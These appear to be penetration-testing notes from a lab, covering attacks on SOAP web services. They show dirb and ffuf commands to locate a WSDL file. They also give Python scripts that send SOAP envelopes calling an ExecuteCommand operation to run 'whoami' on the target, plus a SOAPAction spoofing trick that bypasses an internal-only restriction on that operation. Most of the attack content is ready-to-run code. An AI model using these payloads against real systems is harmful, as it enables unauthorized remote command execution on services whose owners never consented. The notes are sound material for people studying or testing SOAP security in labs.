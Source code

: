#xml
#soap
#### WSDL file location
```bash
dirb http://10.129.164.82:3002

+ http://<TARGET IP>:3002/wsdl (CODE:200|SIZE:0)                            
DOWNLOADED: 4612 - FOUND: 1
```

If curl `<ip>/wsdl` response is empty:
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u 'http://10.129.164.82:3002/wsdl?FUZZ' -fs 0 -mc 200
```

`curl http://10.129.164.82:3002/wsdl?wsdl`

File may be found at example.wsdl, ?wsdl, /example.disco, ?disco 

##### Request example
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><ExecuteCommandRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></ExecuteCommandRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
##### SOAPAction spoofing
If the request abive is restricted to the internal network only, we can bypass it:
```python
import requests

payload = '<?xml version="1.0" encoding="utf-8"?><soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"  xmlns:tns="http://tempuri.org/" xmlns:tm="http://microsoft.com/wsdl/mime/textMatching/"><soap:Body><LoginRequest xmlns="http://tempuri.org/"><cmd>whoami</cmd></LoginRequest></soap:Body></soap:Envelope>'

print(requests.post("http://<TARGET IP>:3002/wsdl", data=payload, headers={"SOAPAction":'"ExecuteCommand"'}).content)
```
